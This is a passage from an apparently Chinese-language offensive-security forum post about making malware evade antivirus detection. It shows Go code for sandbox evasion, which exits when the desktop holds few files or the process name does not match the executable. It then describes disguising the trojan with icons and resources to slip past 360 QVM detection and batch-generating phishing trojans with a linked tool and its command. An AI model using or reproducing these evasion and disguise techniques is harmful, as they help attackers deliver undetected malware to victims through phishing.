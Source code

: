 ```php
  fmt.Println("用户桌面文件数：", fileCount)  
​  
  if fileCount < 10 {  
    os.Exit(0)  
  }  
}
```

检测运行程序名是否一致

```php
func process() {  
  executablePath, err :\= os.Executable()  
  if err != nil {  
    // 处理错误  
    return  
  }  
​  
  sourceFilename :\= filepath.Base(executablePath) // 源文件名称  
  processName :\= filepath.Base(os.Args\[0\])        // 当前运行进程名称  
​  
  // 比较源文件名称和进程名称是否相同  
  if strings.EqualFold(sourceFilename, processName) {  
    // 进程名称和源文件名称相同，正常运行  
    // 在这里执行正常的操作  
  } else {  
    // 进程名称和源文件名称不同，可能在沙箱环境中运行  
    // 在这里执行相应的防沙箱操作  
    os.Exit(0) // 退出程序  
  }  
}
```

#### 资源替换

做完免杀马，那接下来肯定需要伪装成正常的文件，图标和签名是很重要的一环，且可以一定程度规避`360qvm检测`

批量生成钓鱼马  
[https://github.com/Pizz33/360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)

360会对不携带资源的可疑程序进行拦截，标签为`HEUR/QVM202.0.29xx.Malware.Gen`

![](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-9182a0b4d258c0676ffe85708b1c905acacc443d.png)

直接提取图标添加至exe一样会进行拦截

![](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-19c209a824f6c4a16466abf93f9c89acb46458aa.png)

使用方法：

把免杀马命名为`test.exe` 运行脚本`python icon-exe.py -f ico_file -n number`

（`ResourceHacker.exe`来源于互联网，不放心可自行替换）

![](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-aa5d4e04eba832527ffbbe0c12a07922de86e0e5.png)

